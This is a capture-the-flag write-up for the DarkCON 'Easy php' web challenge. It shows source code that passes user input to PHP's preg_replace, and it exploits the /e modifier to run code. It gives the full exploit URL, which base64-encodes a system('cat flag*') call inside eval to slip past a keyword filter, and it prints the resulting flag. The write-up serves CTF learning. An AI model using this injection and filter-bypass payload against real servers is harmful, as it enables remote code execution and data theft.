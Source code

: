Easy php
========
category: web

challenge-link:http://easy-php.darkarmy.xyz/

>In this challenges there was no hint/desc

solution
---------


when we open the challenge link we get a web page with text ``Welcome DarkCON CTF !!``

in the robots.txt it says ``?lmao``
when we put ``challenge-link:http://easy-php.darkarmy.xyz/?lmao`` we will get the php source code of index.php
source code:
```php
<?php
require_once 'config.php';

$text = "Welcome DarkCON CTF !!";

if (isset($_GET['lmao'])) {
    highlight_file(__FILE__);
    exit;
}
else {
    $payload = $_GET['bruh'];
    if (isset($payload)) {
        if (is_payload_danger($payload)) {
            die("Amazing Goob JOb You :) ");
        }
        else {
            echo preg_replace($_GET['nic3'], $payload, $text);
        }
    }
    echo $text;
}
?>
```

Now we have to pass two GET parameter to the url ``bruh`` and ``nic3``
we get code exicution because of the ``preg_replace()`` function

But the `` is_payload_danger()`` function filters our input so some functions like system etc are blacklisted we have to bypass that
so i used base64 encoded the payload and use eval and decode function to get the flag

base64 of ``system('cat flag*') ``

payload:
```url
http://easy-php.darkarmy.xyz/?nic3=/Dark/e&bruh=eval(base64_decode(%27c3lzdGVtKCdjYXQgZmxhZyonKTsK%27))
```
flag:
darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}




